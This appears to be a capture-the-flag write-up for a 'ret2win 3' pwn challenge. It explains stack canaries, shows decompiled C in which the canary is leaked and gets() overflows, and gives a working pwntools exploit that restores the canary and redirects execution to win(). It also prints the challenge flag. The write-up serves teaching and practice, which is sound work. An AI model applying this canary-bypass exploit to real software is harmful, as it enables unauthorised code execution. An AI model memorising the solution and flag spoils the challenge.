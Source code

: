 # [Pwn] ret2win 3

## 📚 Overview

> *"Salah satu mitigasi dari buffer overflow di stack adalah canary. Canary adalah 8 byte random yang diletakkan sebelum saved RBP. Jadi, kalau kita overwrite saved RIP menggunakan buffer overflow, canary pasti akan ikut berubah. Canary akan diperiksa oleh program setiap sebelum keluar fungsi dan kalau canary-nya berubah dari sebelumnya, berarti telah terjadi buffer overflow dan program akan dihentikan. Tapi, kalau kita tau canary-nya, kita tinggal masukin ke payload kita di offset yang sesuai."*

## 💻 Decompiled Code

The binary given has enabled the feature of **stack canary** to mitigate buffer overflow attack. However, the canary's value was *leak* so we will use the value in our payload before overwriting the RIP.

```c
void win(void)
{
  FILE *file;
  long in_FS_OFFSET;
  char flag [104];
  long canary_value;
  
  canary_value = *(long *)(in_FS_OFFSET + 0x28);
  file = fopen("flag.txt","r");
  if (file == (FILE *)0x0) {
    puts("flag.txt not found");
    FUN_00401140(0xffffffff);
  }
  fgets(flag,100,file);
  fclose(file);
  printf("Wow, how did you get here? Here\'s the flag:\n%s\n",flag);
  if (canary_value != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}

undefined8 main(void)
{
  long in_FS_OFFSET;
  char buffer [104];
  long canary_value;
  
  canary_value = *(long *)(in_FS_OFFSET + 0x28);
  printf("Here\'s a gift for you: 0x%lx\n",canary_value);
  printf("Give me your payload: ");
  gets(buffer);
  if (canary_value != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

## ⚙ Full Script

**Payload >** Overflow the buffer to reach the stack but save some spaces for canary, insert the leaked canary value + padding bytes, and then overwrite the RIP with `win()` address.

```python
from pwn import *
elf = context.binary = ELF("./ret2win", checksec=False)

p = process('./ret2win')
# p = remote("IP_ADDR", PORT)

RET_ADDR = p64(0x40101a)
WIN_ADDR = p64(elf.symbols.win)
p.recvuntil(b'Here\'s a gift for you: ')
CANARY = int(p.recv(18), 16)

payload = b'A' * 0x68 + p64(CANARY)
payload += b'B' * 8 + RET_ADDR + WIN_ADDR
p.sendlineafter(b"Give me your payload: ", payload)

response = p.recvall(timeout=1).strip()
print(response.decode())

# TCP1P{gimana_rasanya_ngebypass_mitigasi_pertama_bang}

p.close()
```